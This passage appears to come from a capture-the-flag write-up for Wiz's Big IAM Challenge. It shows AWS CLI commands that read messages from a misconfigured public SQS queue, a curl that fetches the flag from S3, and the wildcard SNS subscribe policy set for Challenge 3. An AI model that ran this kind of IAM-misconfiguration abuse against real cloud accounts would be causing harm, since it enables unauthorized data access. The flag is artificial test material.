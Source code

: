 ```bash
> aws sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2 -
-attribute-names All --message-attribute-names All --max-number-of-messages 10
{
    "Messages": [
        {
            "MessageId": "1a901338-3c28-4f9c-838e-08ad403afc39",
            "ReceiptHandle": "AQEBgGA1H/4osMm10hmRaZHLyN8XDQxzqBimU8LpiT21usZDEwp4EwbrSZNXTTamEJIj4SIwDLOPokBM1EVF5K/6EcgYTnJ
E82eheswF/nIZl+t2GTbcjQ1v3pP9vm0ijdCWqQaQ472EDLj2KF/TEL/lEQVsJFhfTJwLONKlavXpyuFQF+Sj6AsW2UEFfKdQVsQu4Q2rbk+mgNHI6HpU68MN2LUz
qZDh1tHWGoJA1OJvQSY2PxaD7vr644gFMwwoznpzcdw7ItrYI3PbBvkA4fmcR6ifJWxdYayz6Hrlgu3BuUrlZDAGFIIF5BB/vEs8gIAu/JNZhzaBxulWBqwRiKHBc
5u7LybpfbExBCFrudUO5PYvgc6XNb8QDI575iLf5R9oYGleQ7dH4+ffeN8SOzxwhI1i3Sipwe5dsA4DbvRL414=",
            "MD5OfBody": "4cb94e2bb71dbd5de6372f7eaea5c3fd",
            "Body": "{\"URL\": \"https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html\", \"User-Agent\"
: \"Lynx/2.5329.3258dev.35046 libwww-FM/2.14 SSL-MM/1.4.3714\", \"IsAdmin\": true}",
            "Attributes": {
                "SenderId": "AROARK7LBOHXGHGQ5XCT5:tbic-wiz-send-flag-to-sqs-8d265a4",
                "ApproximateFirstReceiveTimestamp": "1744230603499",
                "ApproximateReceiveCount": "1",
                "SentTimestamp": "1744227388406",
                "AWSTraceHeader": "Root=1-67f6cc3c-2501b4910e004349426d8006;Parent=73146ee07a1ed731;Sampled=0;Lineage=1:037be
d70:0"
            }
        },
> curl https://tbic-wiz-analytics-bucket-b44867f.s3.amazonaws.com/pAXCWLa6ql.html
{wiz:you-are-at-the-front-of-the-queue}
```

---

---

## [Challege 3 - Enable Push Notifications](https://bigiamchallenge.com/challenge/3)

### We got a message for you. Can you get it?

IAM POLICY 

```bash
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```